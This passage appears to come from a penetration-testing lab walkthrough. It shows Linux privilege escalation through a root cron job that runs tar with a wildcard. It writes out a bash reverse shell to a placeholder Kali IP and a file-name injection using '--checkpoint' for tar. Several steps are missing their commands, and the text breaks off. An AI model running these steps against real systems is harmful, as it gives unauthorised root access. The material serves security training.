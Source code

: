     ```
    * * * * * root /usr/local/bin/compress.sh
    ```
2.  We can display the content of the compress.sh script by running the following command:

    ```
    cat /usr/local/bin/compress.sh
    ```

    The output is as follows:

    ```
    user@debian:~$ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *
    ```

    we can identify that the script is executed from the `user` account's home directory and that the files have been compressed with the `tar` utility. However, we can also identify a wildcard (\*) at the end of the `tar` command. The wildcard is used to specify all the files in the `user` account's home directory.
3. The `tar` utility has a checkpoint feature that is used to display progress messages after a specific set of files. It also allows users to define a specific action that is executed during the checkpoint. We can leverage this feature to execute a reverse shell payload that will provide us with an elevated session when executed.
4.  We can create the reverse shell script and insert a `bash` command that will provide us with a reverse shell. This can be done by running the following command in the user home directory:

    ```
    echo 'bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1' > shell.sh
    ```

    Now that we have created the file, we need to set up a reverse listener with Netcat.
5. We can set up the reverse listener on the Kali VM by running the following command:
6.  We can now set up our tar checkpoints in the user account's home directory. This can be done by running the following command on the target system:

    **tar checkpoints**[**​**](broken-reference)

    A checkpoint is a moment of time before writing nth record to the archive (a write checkpoint), or before reading nth record from the archive (a read checkpoint). Checkpoints allow to periodically execute arbitrary actions.

    The checkpoint facility is enabled using the following option:

    Schedule checkpoints before writing or reading each nth record. The default value for n is 10.

    A list of arbitrary actions can be executed at each checkpoint. These actions include: pausing, displaying textual messages, and executing arbitrary external programs. Actions are defined using the ‘--checkpoint-action’ option.

    ```
    --checkpoint-action=action
    ```

    ```
    touch /home/user/--checkpoint=1
    ```
7.  After setting up our checkpoint, we need to set up our checkpoint action. In this case, our checkpoint action will execute the `shell.sh` script, which will provide us with an elevated reverse shell. This can be done by running the following command:
